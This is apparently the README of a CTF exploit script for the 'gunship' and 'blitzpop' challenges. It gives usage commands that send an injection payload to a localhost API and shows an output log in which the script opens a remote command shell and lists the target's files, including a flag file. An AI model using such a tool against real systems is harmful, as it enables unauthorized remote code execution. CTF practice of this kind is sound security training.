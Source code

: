 # ATS Injection script

Small script used for the `gunship` and `blitzpop` ctfs,extended to be a little more flexible.

## Installation

If you want nicer error looking reports, you'll need the `beautifulsoup4` package,
but it's not necessary.

```bash
pip install beautifulsoup4
```

Otherwise, just clone the repo into any folder you'd like.

## Usage

Use the `-u,--url` flag to specify a domain to attack,and optionaly, add any extra JSON that
you need with the `-j,--json` flag.

## Example

```bash
python script.py -u "http://localhost:1337/api/submit" -j blitz.json
```
If needed, you can just write the JSON object

```bash
python script.py --url "http://localhost:1337/api/submit" --json '{artist.name: "Haigh"}'
```
Once you run the script, you should se a command line that allows you to run code on the
attacked machine

```
$ python script.py --url "http://localhost:1337/api/submit" --json '{"artist.name": "Haigh"}'
	>id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

	>ls
flagnjEYE
index.js
node_modules
package.json
routes
static
views
yarn.lock

	>exit

Goodbye!
$
```
